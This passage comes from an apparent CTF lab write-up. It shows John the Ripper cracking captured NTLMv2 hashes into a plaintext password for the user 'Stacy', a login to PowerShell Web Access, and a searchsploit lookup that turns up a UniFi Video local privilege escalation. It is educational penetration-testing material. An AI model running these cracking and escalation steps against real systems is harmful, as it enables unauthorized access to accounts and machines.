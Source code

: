 {% highlight shell %}
root@kali:~# john pw.txt_netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 14 password hashes with 14 different salts (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
xNnWo6272k7x     (Stacy)
14g 0:00:00:07 DONE (2019-02-26 21:01) 1.806g/s 348820p/s 4883Kc/s 4883KC/s xevood..wtkate
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

Now, we have username and password to login to Powershell Web Access.

![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-02-27/2019-02-26-21-06-26.png)

Since we have powershell, we can easily access to user.txt.

![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-02-27/2019-02-26-21-12-40.png)

### 3.Getting Root
After logged in the Powershell console, we can find that there is an interesting file

![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-02-27/2019-02-27-12-56-50.png)

By using searchsploit, we can find a <a href="https://www.exploit-db.com/exploits/43390">Local Privilege Escalation</a>.
{% highlight shell %}
root@kali:~# searchsploit unifi video
------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                     |  Path
                                                                                                                   | (/usr/share/exploitdb/)
------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Ubiquiti Networks UniFi Video Default - 'crossdomain.xml' Security Bypass                                          | exploits/php/webapps/39268.java
Ubiquiti UniFi Video 3.7.3 - Local Privilege Escalation                                                            | exploits/windows/local/43390.txt
------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
{% endhighlight %}
